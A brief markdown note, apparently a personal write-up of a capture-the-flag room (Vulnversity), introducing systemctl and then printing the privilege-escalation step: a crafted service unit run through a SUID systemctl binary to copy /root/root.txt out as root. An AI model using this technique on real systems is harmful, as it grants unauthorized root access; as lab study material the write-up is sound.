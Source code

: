# Systemctl
*```systemd``` et ```systemctl``` remplacent ```SysVInit``` (= service, chkconfig, etc) cf. [explications](https://www.tala-informatique.fr/wiki/index.php/Systemctl)*<br/>
```systemctl``` permet notamment de gérer les services et leurs dépendances, *et c'est ce qui va nous intéresser*
<br/><br/>
__Contexte:__<br/>
*Dans la room Vulnversity, section Privilege Escalation, on avait réussi à accéder au système hébergeant le site web via un exploit.<br>
We listed all SUID files and noticed that* ```/bin/systemctl``` *was one of them.<br/>
The last task was to retrieve an information contained in /root/root.txt. Didn't have any ideas how to make it, here's the  "solution":<br/><br/>*
```
new_service=$(mktemp).service                                       # mktemp create a unique temporary filename
echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag.txt"         # -c will execute everything inside the quotes
> [Install]
> WantedBy=multi-user.target' > $new_service                        # set the runlevel execution of the service
```
[Service creation syntax](https://medium.com/@benmorel/creating-a-linux-service-with-systemd-611b5c8b91d6)
```
/bin/systemctl link $new_service                                    # will allow to "manage" our new service directly with systemctl
/bin/systemctl enable --now $new_service

cat /tmp/flag.txt
```
